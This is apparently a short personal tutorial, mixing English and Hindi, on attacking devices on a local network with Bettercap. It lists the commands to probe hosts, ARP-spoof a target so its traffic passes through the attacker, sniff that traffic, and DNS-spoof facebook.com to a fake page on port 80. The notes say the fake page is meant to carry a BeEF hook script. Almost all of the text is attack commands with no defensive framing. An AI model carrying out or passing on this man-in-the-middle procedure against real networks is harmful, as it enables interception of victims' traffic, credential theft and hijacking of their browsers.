

## **Bettercap**

```
net.probe on
```



```
net.show
```
We see a list of devices here

Now we will do an ARP spoofing and by this we will select a device and make our device confuse that we are the router so his traffic will be reached on our system and then reach to the router

```
set arp.spoof.targets <target_IP>
```

```
arp.spoof on
```

```
net.sniff on
```

```
net.sniff off
```

```
set dns.spoof.domains facebook.com
```

Now we will perform DNS spoofing

Ek fake website create krunga usme beef ka link dalke launch krunga port 80 p kruki practically usi p ho skta hai

Pehle apache server port 80 p close kro

```
sudo systemctl stop apache
```

name the site as index.html and save the beef link in a script

```
dns.spoof on
```